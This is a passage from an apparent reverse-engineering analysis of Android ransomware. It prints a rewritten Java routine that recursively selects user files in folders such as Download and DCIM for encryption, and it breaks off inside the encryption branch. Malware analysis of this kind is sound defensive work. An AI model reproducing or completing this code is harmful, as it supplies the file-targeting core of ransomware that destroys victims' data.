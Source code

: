 The parameter `action` is either 0 or 1 (decrypt/encrypt). As we can see, the `MainActivity` is closed and reopen, and then, the code of `onCreate` makes sense. The real bad job is actually done
in the routine `deleteDirWihtFile`, selecting recursively the files to encrypt. Since it's a big routine, here is the re-written code:  

> ```java
>public static void deleteDirWihtFile(File file, final String key, final int action, final Context context){
>	if ((file == null) || !file.exists() || !file.isDirectory())
>		return;
>	List<File> files = Arrays.asList(file.listFiles());
>	Collections.reverse(files);
>	File[] arrayOfFile = files.toArray(new File[files.size()]);
>	for (int i = 0;i < arrayOfFile.length;i++){
>		final File localFile = arrayOfFile[i];
>		String str = localFile.toString();
>		if (str.length() >= MainActivity.hzs)
>			str = (String)str.subSequence(str.length() - MainActivity.hzs, str.length());
>		if (action == 0) {
>			try {
>				if (localFile.isFile() && str.equals(MainActivity.hz) && !localFile.toString().contains("/.") && localFile.getName().contains(".")) {
>					executorService.execute(new Runnable() {
>						@Override public void run() {
>							if (localFile.getName().contains("!\uff01" + MainActivity.hz))
>								localFile.delete();
>							else
>								sss.jj(sss.this, key, action);
>							aa++;
>							if (lstFile.size() <= aa) {
>								aa = 0;
>								lstFile = new ArrayList<>();
>								SharedPreferences.Editor editor = context.getSharedPreferences("XH", 0).edit();
>								editor.putInt("cjk", 1);
>								editor.commit();
>								MainActivity.instance.finish();
>								Intent intent = context.getPackageManager().getLaunchIntentForPackage(context.getPackageName());
>								intent.addFlags(Intent.FLAG_ACTIVITY_CLEAR_TOP);
>								context.startActivity(intent);
>							}
>						}
>					});
>				} else if (localFile.isDirectory() &&
>					!localFile.toString().contains("/.") &&
>					!localFile.toString().toLowerCase().contains("android") &&
>					!localFile.toString().toLowerCase().contains("com.") &&
>					!localFile.toString().toLowerCase().contains("miad") &&
>						(jd(localFile.toString()) < 3 ||
>						localFile.toString().toLowerCase().contains("baidunetdisk") ||
>						localFile.toString().toLowerCase().contains("download") ||
>						localFile.toString().toLowerCase().contains("dcim"))) {
>					deleteDirWihtFile(localFile, key, action, context);
>				}
>			} catch (Exception ignored) {}
>		}
>		else{
>			if (localFile.isFile() &&
>				!str.equals(MainActivity.hz) &&
>				!localFile.toString().contains("/.") &&
>				localFile.getName().contains(".") &&
>				localFile.length() > 0x2800 &&
>				localFile.length() <= 52428800 &&
>				zjs(localFile.getName() + MainActivity.hz) <= 251){  //zjs(s): return s.getBytes().length